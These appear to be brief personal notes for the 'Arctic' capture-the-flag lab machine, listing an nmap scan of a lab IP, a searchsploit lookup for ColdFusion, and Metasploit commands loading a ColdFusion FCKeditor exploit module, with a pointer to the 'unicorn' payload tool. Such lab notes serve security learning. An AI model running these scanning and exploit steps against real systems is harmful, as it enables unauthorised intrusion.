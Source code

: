 
# Arctic

```
nmap -sV -sC -oA nmap/arctic 10.10.10.11

searchsploit coldfusion
msfconsole
> search coldfusion
> use exploit/windows/http/coldfusion_fckeditor
```
google -> python unicorn trustedsec 

